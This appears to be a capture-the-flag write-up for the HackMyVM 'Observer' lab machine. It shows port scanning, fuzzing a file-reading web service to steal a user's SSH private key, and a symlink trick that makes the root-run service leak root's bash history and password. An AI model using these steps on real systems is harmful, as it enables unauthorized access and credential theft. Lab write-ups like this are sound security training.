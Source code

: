```yaml
---
categories: [HackMyVM]
tags: [Fuzzing, PrivEsc, Soft_Link]
media_subpath: /Vulnhub-Files/img/
image:
  path: Observer/Untitled.png
  alt: HackMyVM Machine 📷
---
```


HackMyVM Machine ➡️ &nbsp;&nbsp;<kbd>Easy</kbd> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<kbd>#Fuzzing</kbd>&nbsp;&nbsp;<kbd>#Soft_Link</kbd>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;


## Port Scan Results ⤵️

![Untitled](Observer/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.0.2.83   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-27 12:42 IST
Nmap scan report for 10.0.2.83
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey: 
|   256 06:c9:a8:8a:1c:fd:9b:10:8f:cf:0b:1f:04:46:aa:07 (ECDSA)
|_  256 34:85:c5:fd:7b:26:c3:8b:68:a2:9f:4c:5c:66:5e:18 (ED25519)
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:13:06 GMT
|     Content-Length: 105
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/nice ports,/Trinity.txt.bak NOT EXIST 
|     <!-- sbOJiFQGZsnwTKSmVoiGLOpbUOpEdKHMV -->
|   GenericLines, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:12:41 GMT
|     Content-Length: 78
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/ NOT EXIST 
|     <!-- XVlBzgbaiCMRAjWwhTHctcuAxhxKQFHMV -->
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:12:41 GMT
|     Content-Length: 78
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/ NOT EXIST 
|_    <!-- DaFpLSjFbcXoEFfRsWxPLDnJObCsNVHMV -->
1 service unrecognized despite returning data.
```
{: .nolineno}
{: .nolineno}
{: file='Nmap_Result.txt'}

## Web Enumeration ⤵️

I checked port 80 →

![Untitled](Observer/Untitled%202.png)

It can reads the content from `home` directory means inside the home directory I have to find the `username` and the file name to read so I used `ffuf Tool` for username bruteforce →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ ffuf -c -mc 200,301,302,401 -fc 404,500,401 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u 'http://10.0.2.83:3333/FUZZ/.ssh/id_rsa' -fw 8 -fl 4 -o ffuf_parameter

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       'v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.83:3333/FUZZ/.ssh/id_rsa
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Output file      : ffuf_parameter
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302,401
 :: Filter           : Response status: 404,500,401
 :: Filter           : Response words: 8
 :: Filter           : Response lines: 4
________________________________________________

cgi-bin/                [Status: 301, Size: 55, Words: 3, Lines: 3, Duration: 14ms]
jan                     [Status: 200, Size: 2602, Words: 7, Lines: 39, Duration: 10ms]
:: Progress: [20476/20476] :: Job [1/1] :: 5000 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```
{: .nolineno}
{: .nolineno}

I got the username as `jan` and I used the file name as `.ssh/id_rsa` , That gives me the private keys of that user and I can login now →

![Untitled](Observer/Untitled%203.png)

Now lets Login →

## SSH Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ ssh -i id_rsa jan@10.0.2.83
Linux observer 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Nov 27 08:53:33 2023 from 10.0.2.77
jan@observer:~$ whoami
jan
jan@observer:~$ id
uid=1000(jan) gid=1000(jan) grupos=1000(jan),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
jan@observer:~$ hostname
observer
jan@observer:~$
```
{: .nolineno}
{: .nolineno}

lets see the sudoer file that can lead me to root →

```bash
jan@observer:~$ sudo -l
Matching Defaults entries for jan on observer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jan may run the following commands on observer:
    (ALL) NOPASSWD: /usr/bin/systemctl -l status
jan@observer:~$
```
{: .nolineno}
{: .nolineno}

I tried it and observed that the system processes are running `/opt/observer` as we can see from its web server part through root user →

![Untitled](Observer/Untitled%204.png)

As this is ran through root user so I cna try to access the root files through the web application so for that I need to create a soft link that will redirect to the root directory .

```bash
jan@observer:~$ ln -s /root root
jan@observer:~$ ls -al
total 40
drwx------ 4 jan  jan  4096 nov 27 09:29 .
drwxr-xr-x 3 root root 4096 ago 21 20:19 ..
-rw------- 1 jan  jan   711 nov 27 09:21 .bash_history
-rw-r--r-- 1 jan  jan   220 ago 21 20:19 .bash_logout
-rw-r--r-- 1 jan  jan  3526 ago 21 20:19 .bashrc
drwxr-xr-x 3 jan  jan  4096 ago 21 20:21 .local
-rw-r--r-- 1 jan  jan   807 ago 21 20:19 .profile
lrwxrwxrwx 1 jan  jan     5 nov 27 09:29 root -> /root
drwx------ 2 jan  jan  4096 ago 21 20:25 .ssh
-rw------- 1 jan  jan    24 ago 21 20:21 user.txt
-rw------- 1 jan  jan    54 ago 21 20:21 .Xauthority
jan@observer:~$
jan@observer:~$ cd root
-bash: cd: root: Permiso denegado
jan@observer:~$
```
{: .nolineno}
{: .nolineno}

Now Lets access `.bash_history` file common known file in a user directory →

![Untitled](Observer/Untitled%205.png)

I got the root password from here so lets Login and be a root user →

```bash
jan@observer:~$ su root
Contraseña: 
su: Fallo de autenticación
jan@observer:~$ su root
Contraseña: 
root@observer:/home/jan# cd ~
root@observer:~# whoami
root
root@observer:~# id
uid=0(root) gid=0(root) grupos=0(root)
root@observer:~# hostname
observer
root@observer:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:48:8b:ad brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.83/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 331sec preferred_lft 331sec
    inet6 fe80::a00:27ff:fe48:8bad/64 scope link 
       valid_lft forever preferred_lft forever
root@observer:~# cat root.txt
FLAG-------FLAG-------FLAG
root@observer:~# ls -al
total 52
drwx------  5 root root 4096 nov 27 09:29 .
drwxr-xr-x 18 root root 4096 ago 21 20:17 ..
-rw-------  1 root root  668 nov 27 09:21 .bash_history
-rw-r--r--  1 root root  571 abr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 ago 21 20:23 .cache
-rw-------  1 root root   55 nov 27 09:29 .lesshst
drwxr-xr-x  3 root root 4096 ago 21 20:23 .local
-rw-r--r--  1 root root  913 ago 21 20:23 observer.go
-rw-r--r--  1 root root  161 jul  9  2019 .profile
-rw-------  1 root root   24 ago 21 20:24 root.txt
-rw-r--r--  1 root root   66 ago 21 20:23 .selected_editor
drwx------  2 root root 4096 ago 21 20:15 .ssh
-rw-r--r--  1 root root  161 ago 21 20:22 .wget-hsts
root@observer:~#
```
{: .nolineno}
{: .nolineno}

Now am Root !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }